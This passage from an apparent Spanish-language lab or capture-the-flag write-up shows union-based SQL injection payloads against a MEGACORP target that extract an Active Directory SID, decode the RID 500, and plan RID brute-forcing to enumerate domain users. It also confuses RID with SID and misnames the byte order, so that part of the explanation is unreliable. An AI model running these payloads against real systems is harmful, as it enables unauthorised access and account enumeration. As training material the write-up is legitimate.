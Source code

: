 Lo represento en hexadecimal

```null
-> test' union select 1,sys.fn_varbintohexstr(SUSER_SID('MEGACORP\Administrator')),3,4,5-- -
[
     {
          "id": 1,
          "name": "0x0105000000000005150000001c00d1bcd181f1492bdfc236f4010000",
          "position": "3",
          "email": "4",
          "src": "5"
     }
```

Toda la cadena, sin contar con el '0x', tiene un total de 56 caracteres, de los cuales los 48 primeros corresponden al RID y el resto al SID

```null
echo -n "0105000000000005150000001c00d1bcd181f1492bdfc236f4010000" | wc -c
56
```

Si me quedo con el SID, y lo pongo en formato big endian para hacer el reversing de hexadecimal:

```null
echo -n "0105000000000005150000001c00d1bcd181f1492bdfc236f4010000" | tail -c 8
f4010000
```

Los ceros los puedo omitir

```null
python3
Python 3.10.9 (main, Dec  7 2022, 13:47:07) [GCC 12.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> 0x01f4
500
```

Como la prueba la he hecho con el usuario Administrador, tiene sentido que su SID sea 500

Puedo aplicar el proceso inverso, en la inyección SQL le paso como input la suma de RID + SID, para que me devuelva el usuario al que pertenece. Como el SID va a permanecer constante, podría aplicar fuerza bruta con respecto al RID para así obtener todos los usuarios del Directorio Activo

```null
-> test' union select 1,SUSER_SNAME(0x0105000000000005150000001c00d1bcd181f1492bdfc236f4010000),3,4,5-- -
[
     {
          "id": 1,
          "name": "MEGACORP\\Administrator",
          "position": "3",
          "email": "4",
          "src": "5"
     }
]
```
